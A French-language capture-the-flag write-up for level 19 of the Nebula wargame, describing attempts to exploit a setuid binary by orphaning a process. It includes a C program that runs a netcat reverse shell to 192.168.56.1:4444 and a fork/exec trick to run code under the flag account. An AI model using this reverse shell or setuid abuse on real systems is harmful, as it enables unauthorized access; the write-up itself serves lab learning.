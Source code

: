 Je pensais d'abord pouvoir utiliser la commande `setsid` qui se présente de cette façon :

>       setsid lance un programme dans une nouvelle session. La commande appelle fork(2) s'il y a déjà un meneur de groupe de processus. Sinon, il exécute un programme dans le processus actuel. Ce  
>       comportement par défaut peut être outrepassé avec l'option --fork.

En effet si je lance la commande `setsid top` je peux voir `top` se lancer dans le terminal et si je lance `pstree` depuis un autre terminal je vois ceci :

```
init─┬─atd
     ├─cron
     ├─dbus-daemon
     ├─dhclient3
     ├─6*[getty]
     ├─lua
     ├─python
     ├─rsyslogd───3*[{rsyslogd}]
     ├─sshd─┬─3*[sshd───sshd───sh]
     │      └─sshd───sshd───sh───pstree
     ├─2*[thttpd]
     ├─top
     ├─udevd───2*[udevd]
     ├─upstart-socket-
     └─upstart-udev-br
```

Sur ce level  `setsid` lance bien le binaire mais les droits ne sont pas suffisants :

```shellsession
level19@nebula:/home/flag19$ setsid ./flag19 -c /bin/getflag
level19@nebula:/home/flag19$ getflag is executing on a non-flag account, this doesn't count
```

J'ai écrit le code C suivant qui fixe l'UID réel et effectif puis exécute un reverse-shell :

```c
#include <unistd.h>

int main(void) {
        setreuid(980, 980);
        system("nc.traditional -e /bin/bash 192.168.56.1 4444");
        return 0;
}
```

mais ça ne marchait pas mieux. J'ai donc du écrire mon propre code C qui fork et lance l'exécutable `flag19` :

```c
#include <unistd.h>

int main(void) {
        if (!fork()) {
                // child process
                execl("/home/flag19/flag19",  "/bin/sh",  "-c",  "/tmp/fixuid");
        }
        return 0;
}
```

